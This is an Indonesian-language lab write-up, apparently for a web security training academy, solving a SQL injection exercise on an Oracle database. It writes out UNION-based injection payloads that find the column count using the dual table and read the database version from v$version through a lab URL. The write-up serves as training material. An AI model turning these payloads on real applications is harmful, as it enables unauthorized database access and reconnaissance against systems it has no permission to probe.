

# SQL injection attack, querying the database type and version on Oracle

<figure><figcaption></figcaption></figure>

di lab ini kita akan mencoba untuk melihat versi database oracle.

yang harus dilakukan pertama adalah mengidentifikasi jumlah kolom. caranya dengan menambahkan payload SQL di akhir URL.

pada database oracle, kita harus menspesifikkan nama tabel yang digunakan untuk query `select`.

tapi karena kita tidak tahu nama tabel apa yang ada di database, kita bisa menggunakan tabel bawaan dari oracle, yaitu `dual`. jika di mysql, ada tabel bawaan yaitu `information_schema`.

pilih salah satu kategori, kemudian tambahkan payload `'union+select+'a'+from+dual--` .&#x20;

sehingga URL akhirnya menjadi `https://0a8d00a704a1d372813dd99f000f0023.web-security-academy.net/filter?category=Lifestyle%27union+select+'a'+from+dual--`

payload di atas berarti kita memeriksa apakah jumlah kolom adalah 1 (ini dari karakter a)

<figure><figcaption></figcaption></figure>

disini kita mendapatkan respon error, artinya jumlah kolom bukan 1.

tambahkan pengecekan jumlah kolom menjadi 2 `'union+select+'a','b'+from+dual--` .

<figure><figcaption></figcaption></figure>

disini sudah tidak terjadi error. artinya jumlah kolomnya ada 2.

jika di scroll ke bagian paling bawah, maka akan tampil karakter payload yang sudah di masukkan tadi, yaitu `a` dan `b`.

ubah payload query untuk menampilkan versi database oracle menjadi seperti ini:\
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`&#x20;

hasil akhir URL: `https://0a8d00a704a1d372813dd99f000f0023.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

scroll ke tengah halaman, dan kita akan mendapatkan versi database dari oracle.

<figure><figcaption></figcaption></figure>

<figure><figcaption>
solved!
</figcaption></figure>
